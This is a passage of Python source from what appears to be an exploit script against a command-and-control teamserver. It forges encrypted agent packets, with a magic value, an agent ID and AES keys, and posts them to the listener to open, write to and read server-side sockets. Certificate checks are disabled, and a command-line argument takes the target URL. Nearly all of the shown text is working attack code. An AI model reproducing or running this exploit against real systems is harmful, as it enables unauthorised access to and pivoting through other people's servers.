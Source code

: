 ```python
    # Build the subcommand package
    package = subcommand + socket_id + socket_type + success + data_length + data
    package_size = int_to_bytes(len(package) + 4)

    # Encrypt and build header data
    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    # Calculate final size
    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    post_data = agent_header + header_data

    print(post_data)
    print("[***] Trying to write to the socket")
    # Send the request
    r = requests.post(teamserver_listener_url, data=post_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to write data to the socket - {r.status_code} {r.text}")


def read_socket(socket_id):
    """
    Read data from the specified socket_id on the teamserver.
    This polls the teamserver for new data and decrypts the response.
    """
    # Socket read command constants
    command = b"\x00\x00\x00\x01"
    request_id = b"\x00\x00\x00\x09"

    # Build the header data
    header_data = command + request_id

    # Calculate final size
    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data

    print("[***] Trying to poll teamserver for socket output...")
    # Send the request
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Read socket output successfully!")
    else:
        print(f"[!!!] Failed to read socket output - {r.status_code} {r.text}")
        return b""

    # Parse the response to extract encrypted data
    command_id = int.from_bytes(r.content[0:4], "little")
    request_id = int.from_bytes(r.content[4:8], "little")
    package_size = int.from_bytes(r.content[8:12], "little")
    enc_package = r.content[12:]

    # Decrypt and return data (trimming the first 12 bytes after decryption)
    return decrypt(AES_Key, AES_IV, enc_package)[12:]


# Parse command-line arguments
parser = argparse.ArgumentParser()
parser.add_argument("-t", "--target", help="The listener target in URL format", required=True)
```